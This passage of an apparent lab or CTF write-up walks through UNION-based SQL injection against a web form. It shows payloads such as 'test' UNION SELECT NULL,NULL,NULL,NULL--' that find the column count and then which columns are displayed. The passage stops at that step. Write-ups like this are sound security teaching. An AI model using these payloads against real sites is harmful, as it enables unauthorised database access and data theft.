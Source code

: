 Once submitted, we see that there is an internal server error:

<img style="float: left;" src="screenshots/screenshot18.png">

This means that the original query returns more than 1 column. 

We repeat this process, incrementing the number of `NULL`s that we submit until we no longer get a server error:

```
test' UNION SELECT NULL--
test' UNION SELECT NULL,NULL--
test' UNION SELECT NULL,NULL,NULL--
...
```

When I submitted 4 `NULL`s:

```
test' UNION SELECT NULL,NULL,NULL,NULL--
```

We can see that we get back a valid response!

<img style="float: left;" src="screenshots/screenshot19.png">

This means that we must have **4 columns** in our payload. Next, let's find out which column will be displayed on the HTTP webpage. We use the following payload to do so:

```
test' UNION SELECT 1,2,3,4--
```

We can see that the data from the **first** and **last** columns are displayed (1 & 4):

<img style="float: left;" src="screenshots/screenshot20.png">
